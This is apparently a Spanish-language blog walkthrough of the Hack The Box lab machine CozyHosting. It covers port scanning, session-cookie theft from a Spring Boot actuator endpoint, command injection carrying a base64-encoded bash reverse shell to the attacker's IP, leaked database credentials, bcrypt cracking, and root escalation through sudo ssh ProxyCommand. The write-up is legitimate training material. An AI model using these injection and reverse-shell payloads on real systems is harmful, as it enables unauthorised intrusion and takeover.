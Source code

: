 ```yaml
---
layout: single
title: CozyHosting - Hack The Box
excerpt: CozyHosting is an easy-difficulty Linux machine that features a `Spring Boot` application. The application has the `Actuator` endpoint enabled. Enumerating the endpoint leads to the discovery of a user&amp;#039;s session cookie, leading to authenticated access to the main dashboard. The application is vulnerable to command injection, which is leveraged to gain a reverse shell on the remote machine. Enumerating the application&amp;#039;s `JAR` file, hardcoded credentials are discovered and used to log into the local database. The database contains a hashed password, which once cracked is used to log into the machine as the user `josh`. The user is allowed to run `ssh` as `root`, which is leveraged to fully escalate privileges.
date: 2024-06-28
classes: wide
header:
  teaser: /assets/images/CozyHosting.png
  teaser_home_page: true
categories:
  - ctf
  - hackthebox
tags:
  - xss
  - sqli
  - hash
---
```

![|500](/assets/images/CozyHosting.png)
## Puertos
Se realiza un escaneo de puertos y servicios a la IP de la máquina usando nmap con el comando:
```sh
sudo nmap -sCV -vvv -A -T5 -p- 10.10.11.230
```
Se encuentran abiertos los puertos 22 y 80.
Se realiza un escaneo enfocado a estos puertos de nuevo con nmap:
```sh
sudo nmap -sCV -A -p22,80 10.10.11.230
```

```
**22/tcp open  ssh**     syn-ack ttl 63 **OpenSSH 8.9p1 Ubuntu 3ubuntu0.3** (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
	|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
	|ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
**80/tcp open  http**    syn-ack ttl 63 **nginx 1.18.0** (**Ubuntu**)
	|http-title: Cozy Hosting - Home
	|http-server-header: nginx/1.18.0 (Ubuntu)
	|http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
	|http-methods:
	|**Supported Methods: GET HEAD OPTIONS**
```

Encontramos información como la versión del ssh, el puerto 80 usa nginx

## Puerto 80
Se realiza un escaneo al puerto 80 usando "whatweb".
```sh
whatweb 10.10.11.230
```
La parte que interesa es:
RedirectLocation[**http://cozyhosting.htb**]
Por lo tanto hay que agregar la página al archivo "/etc/hosts" usando el comando:
```sh
sudo echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

Al realizar fuzzing no se encontró información relevante.

Al visualizar el error 404 en una página errónea, la página muestra información útil.
![](/assets/images/Pasted_image_20240628225207.png)

*This application has no explicit mapping for /error, so you are seeing this as a fallback.*
El texto de error, sirve para buscar información acerca del mismo en la web.

Se encuentra que el error está asociado a una tecnología llamada **spring boot**.

Conociendo la tecnología, se realiza un fuzzing más específico a la página usando wfuzz.
```sh
wfuzz -c --hc=403,404 -t 4 -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -u http://cozyhosting.htb/FUZZ
```

Se encuentran varios subdirectorios:
"actuator/env", "actuator", "actuator/env/lang", "actuator/health", "actuator/env/path", "**actuator/sessions**", "actuator/mappings", "actuator/beans"
# Ganando acceso
## Reemplazo de cookie
Se accede a "actuator/sessions", en el que se encuentra información relevante de un usuario y su cookie de sessión:
![](/assets/images/Pasted_image_20240628225239.png)

Al entrar a la página cozyhosting.htb/login
Se presenta una página de inicio de sesión, al rellenar los campos de uduario y contraseña con cualquier texto y reemplazar la cookie de la página por la encontrada anteriormente de "kanderson", se recarga la página.
![](/assets/images/Pasted_image_20240628225302.png)

Esto permite el acceso a la página de administrador: cozihosting.htb/admin
En la cual, se encuentran dos campos, "Hostname" y "Username"
![](/assets/images/Pasted_image_20240628225329.png)
## Capturando la solicitud
Al rellenar la información con cualquier texto (partyhack en este caso), se procede a capturar el la request con burpsuite y posteriormente enviarla al repeater.
Luego de enviar la solicitud analizamos la respuesta del servidor y al parecer está ejecutando algo relacionado con ssh.
![](/assets/images/Pasted_image_20240628225347.png)
Intenta ejecutar el comando "ssh" usando como los datos proporcionados: partyhack en ambos casos.
## Probando PING
Teniendo esa información podemos intentar ejecutar comandos en el sistema, usando, en este caso un "ping" a nuestra máquina con reemplazando la línea 15 de la solicitud:
```sh
host=10.10.14.13&username=;ping${IFS}-c${IFS}4${IFS}10.10.14.13;
```

No sin antes haber ejejctado "tcpdump" para poner en escucha con el protocolo ICMP:
```sh
sudo tcpdump ip proto \\icmp -i tun0
```
Ya en escucha, a ejecutar el ping se debería recibirlo como a continuación:
![](/assets/images/Pasted_image_20240628225405.png)
## Ejecutando la reverse shell
Se pone en escucha a la máquina local usando netcat en el puerrto 4747 con lo siguiente:
```sh
rlwrap nc -lnvp 4747
```

Se reemplaza la línea con lo siguiente:
```sh
host=10.10.14.13&username=;echo${IFS%??}"YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjEzLzQ3NDcgMD4mMSAg"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```
Y se envía la solicitud, no sin antes aplicar un url-encode para asegurarse que no haya problemas al anviar los datos.

Si todo se realizó correctamente obtendremos la revershell como el usuario "app"
![](/assets/images/Pasted_image_20240628225430.png)

Los usuarios que son de interés son `josh` y `root`, por lo que lo tendremos en cuenta para después.
![](/assets/images/Pasted_image_20240628225442.png)
l listar los documentos podemos ver un archivo "cloudhosting-0.0.1.jar.jar" que podría contener información relevante.
Para traer ese archivo a nuestra máquina local. Desde la máquina en la que acabamos de ganar acceso montamos un servidor http con python:
```python
python3 -m http.server 4848
```

En nuestra máquina lo traemos con un wget.
```sh
wget 10.10.11.230:4848/cloudhosting-0.0.1.jar
```

Una vez el archivo esté en el directorio local, descomprimirlo con:
```sh
unzip cloudhosting-0.0.1.jar
```

Acceder a la carpeta /BOOT-INF/classes y leer el archivo "application.properties"
```sh
cat application.properties
```
Encontramos las siguientes credenciales, nombre de la base de datos  y que es una base de datos "postgresql".
spring.datasource.url=jdbc:**postgresql**://localhost:5432/**cozyhosting**
spring.datasource.username=**postgres**
spring.datasource.password=**Vg&nvzAQ7XxR**

Ingresamos a la base de datos con los siguientes datos e ingresamos la contraseña cuando se requiera.
```sh
psql -h 127.0.0.1 -U postgres -d cozyhosting
```

Listamos las tablas
![](/assets/images/Pasted_image_20240628225507.png)

Mostramos el contenido de las columnas de la tabla `user`
![](/assets/images/Pasted_image_20240628225522.png)

Teniendo los hashes de las contraseñas, podemos usar fuerza bruta para descifrar el de el usuario `admin` que nos interesa más. Para esto se puede usar `johntheripper`
```sh
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```
El tipo de hash es bcrypt.
![](/assets/images/Pasted_image_20240628225543.png)

ngresamos mediante `ssh` usando la contraseña y el usuario `josh`
```sh
ssh josh@10.10.11.230 -p22
```

Y obtenemos la flag de user:
![](/assets/images/Pasted_image_20240628225553.png)
# Escalada de privilegios
Probamos si ejecutar algún comando como root:
```sh
sudo -l
```

Y vemos que se podemos ejecutar ssh como root.
Por lo tanto escalamos privilegios usando ssh de la siguiente manera:
```sh
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
![](/assets/images/Pasted_image_20240628225608.png)

